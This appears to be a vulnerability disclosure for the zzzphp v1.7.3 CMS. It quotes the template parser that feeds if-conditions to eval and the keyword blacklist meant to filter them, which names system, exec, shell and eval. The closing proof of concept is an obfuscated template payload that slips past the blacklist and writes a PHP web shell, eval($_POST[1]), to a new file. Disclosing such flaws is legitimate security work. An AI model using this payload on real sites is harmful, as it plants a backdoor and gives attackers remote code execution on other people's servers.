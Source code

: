 # General
    Vulnerability Name: zzzphp v1.7.3 code execution (latest version)
    Product Homepage: http://www.zzzcms.com
    Software Link: http://115.29.55.18/zzzphp.zip
    Version: v1.7.3

# Vulnerability Overview
Affected code is located at `inc/zzz_template.php:2335`, function `parserIfLabel`.
```php
function parserIfLabel( $zcontent ) {
	$pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
	if ( preg_match_all( $pattern, $zcontent, $matches ) ) {
		$count = count( $matches[ 0 ] );
		for ( $i = 0; $i < $count; $i++ ) {
			$flag = '';
			$out_html = '';
			$ifstr = $matches[ 1 ][ $i ];
			$ifstr=danger_key($ifstr);
			$ifstr = str_replace( '=', '==', $ifstr );	
			$ifstr = str_replace( '<>', '!=', $ifstr );
			$ifstr = str_replace( 'or', '||', $ifstr );
			$ifstr = str_replace( 'and', '&&', $ifstr );
			$ifstr = str_replace( 'mod', '%', $ifstr );						
			@eval( 'if(' . $ifstr . '){$flag="if";}else{$flag="else";}' );
			if ( preg_match( '/([\s\S]*)?\{else\}([\s\S]*)?/', $matches[ 2 ][ $i ], $matches2 ) ) { // 判断是否存在else			
				switch ( $flag ) {
					case 'if': // 条件为真
						if ( isset( $matches2[ 1 ] ) ) {
							$out_html .= $matches2[ 1 ];
						}
						break;
					case 'else': // 条件为假
						if ( isset( $matches2[ 2 ] ) ) {
							$out_html .= $matches2[ 2 ];
						}
						break;
				}
			} elseif ( $flag == 'if' ) {
				$out_html .= $matches[ 2 ][ $i ];
			}
			// 无限极嵌套解析
			$pattern2 = '/\{if([0-9]):/';
			if ( preg_match( $pattern2, $out_html, $matches3 ) ) {
				$out_html = str_replace( '{if' . $matches3[ 1 ], '{if', $out_html );
				$out_html = str_replace( '{else' . $matches3[ 1 ] . '}', '{else}', $out_html );
				$out_html = str_replace( '{end if' . $matches3[ 1 ] . '}', '{end if}', $out_html );
				$out_html = $this->parserIfLabel( $out_html );
			}
			// 执行替换
			$zcontent = str_replace( $matches[ 0 ][ $i ], $out_html, $zcontent );
		}
	}
	return $zcontent;
}
```
This function is mainly to parse the if statement in the template file. Besides execute blacklist substitution for `$ifstr`, which is added in v1.7.2. The replacement function is as follows:

```php
function danger_key($s) {
	$danger=array('php','preg','server','chr','decode','html','md5','post','get','file','dir','cookie','session','sql','del','encrypt','$','system','exec','shell','open','ini_','chroot','eval','passthru','include','require','assert','union','_','?');
	$s = str_ireplace($danger,"*",$s);
	$key=array('php','preg','decode','post','get','cookie','session','$','exec','eval','replace');
   foreach ($key as $val){
	   if(strpos($s,$val) !==false){
		error('很抱歉，您模板中包含危险字符,【'.$val.'】,Sorry your template contains dangerous characters');
		}
   }
	return $s;
}
```

## POC: (Bypass the patch from v1.7.2)

```php
{if:1=1);file_put_contents(strtr("1.p*p", "*", "h"),strtr('<?*h* ', "*", "p").strtr('ev*l(', "*", "a").hex2bin('24').strtr('_P*ST[1]);', "*", "O"));//} {end if}```

![](https://ae01.alicdn.com/kf/H8d8d07e843e5475285a61cb1c9f741f6P.jpg)

![](https://ae01.alicdn.com/kf/H165b250539834c9790a826b7fef9ab4d0.jpg)

![](https://ae01.alicdn.com/kf/H56cdd2dbe2f04d1691fba2caab9341dbt.jpg)

![](https://ae01.alicdn.com/kf/He1a5504ebce54f40b1370844211a6bfd7.jpg)
